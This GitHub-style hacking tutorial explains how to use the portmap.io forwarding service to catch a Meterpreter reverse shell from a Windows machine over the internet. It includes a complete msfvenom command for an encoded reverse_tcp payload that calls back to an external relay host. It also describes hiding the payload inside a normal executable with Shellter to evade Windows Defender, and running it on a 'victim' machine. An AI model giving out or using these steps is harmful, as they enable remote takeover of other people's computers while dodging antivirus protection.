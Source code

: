 # The easier way to hack over the internet!

I learnt about this cool service called [portmap.io](https://portmap.io) back in 2018 when I was starting with hacking and wanted something that would be really easy to setup for getting a reverse shell over the internet! Instead of creating your own VPS, or setting up a cloud proxy server to forward traffic, or even a openvpn server by going through a lot of PITA, you can use [portmap.io](https://portmap.io) to easily set up your portforwarding and get going with learning hacking for free!! I think its great of [portmap.io](https://portmap.io) for providing such an awesome service for free! So, without wasting your time and mine, lets get started.

***

## The less fun part

After you register on [portmap.io](https://portmap.io), you'll land on a page like this:-

![image](https://user-images.githubusercontent.com/86168235/128927051-5bbeb967-bb3a-4e75-8fd3-76713f9b1958.png)

**Note**:- If for some reason you didn't land on this page, then you can click on `CONFIGURATIONS` at the top to reach this page.

Click, on the **create new configuration** button. On the next page, you can set any `Name` you want. Keep the `Type` to openvpn and change the protocol to **tcp**(you can use udp too but you've to configure it alike). You can write anything in the `Comment` box. Next, click on `Generate` and then click on `Download` to download the `.ovpn` file. Take a note of the **openvpn** command mentioned, we will use it later.

![image](https://user-images.githubusercontent.com/86168235/128927119-002f539a-9947-49e7-920c-e84448e04726.png)

***

**Next**, click on `MAPPING RULES` at the top of the webpage. On the next page, click on `CREATE NEW RULE`. Next, you just need to add a random port to forward traffic to your PC. Here I added **1337**. Then click on create. 

![image](https://user-images.githubusercontent.com/86168235/128927397-9dfcf604-caf5-4bf7-9e83-9b5c66d14d8e.png)

**Note**:- You can also use "http/https" protocol(**https** requires subscription). But for the sake of simplicity I used **tcp** here.

Finally, take a note of the **hostname** and **port**, which in my case is `random123-33188.portmap.io` and `33188`.

![image](https://user-images.githubusercontent.com/86168235/128928265-9863f4a9-374a-4ed8-ac4d-f0c6a34c6e2c.png)


***

## The fun part!

On **kali linux**(I use kali, dunno about you🙂), use **msfvenom** to create a payload as follows:-
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=random123-33188.portmap.io LPORT=33188 -f exe -o portmap.exe -e x64/xor_dynamic
```

![image](https://user-images.githubusercontent.com/86168235/128928364-dc24c900-172a-44da-84e5-cd263ff5e2a0.png)

Here the LHOST and LPORT are the **hostname** and **port** you took note from [portmap.io](https://portmap.io). Next, I injected the payload into a normal executable using `Shellter` to bypass Windows Defender. The latest Windows Defender failed to detect it. 

![image](https://user-images.githubusercontent.com/86168235/129901072-4eb218e1-4528-49a9-812a-f665c638a38e.png)

**Next**, start the **openvpn** connection to forward traffic to your machine(use the openvpn command you noticed earlier).

![image](https://user-images.githubusercontent.com/86168235/128928557-2807cd59-150c-4f4d-8c1f-40d5cbd9d92c.png)

Take a note of the ip address of the `tun0`(or your openvpn tunnel interface).

![image](https://user-images.githubusercontent.com/86168235/128928630-2da73f20-5c23-4ac9-8b2e-a99ac0da8c01.png)

Now, set up a meterpreter listener as follows:-

![image](https://user-images.githubusercontent.com/86168235/129900389-25e1b3a5-3cb7-4264-9457-7c8db0fb8aae.png)

Here, lhost is tun0 interface ip, lport is the port we set on [portmap.io](https://portmap.io), payload is what we choose with **msfvenom**. 

**Next**, transfer the `portmap.exe` exploit to victim windows machine and execute it.

![image](https://user-images.githubusercontent.com/86168235/128928898-4d6bc6d9-b048-4eeb-9d1c-29a09168d32c.png)


Next, you'll see what I call **the love of life**😍🥰, the classic **meterpreter reverse shell!!!**

![image](https://user-images.githubusercontent.com/86168235/129901719-d9190d99-c864-4644-9a85-1819c94641ea.png)


**Note**:- Here, my kali machine is connected to my home network and the windows machine is connected to my Mobile hotspot.



# Credits

Thanks to [portmap.io](https://portmap.io), for creating such an awesome service. Their free tier provides limited functionality and you can create only one mapping rule. If you need more, then consider subscribing. Happy hacking!




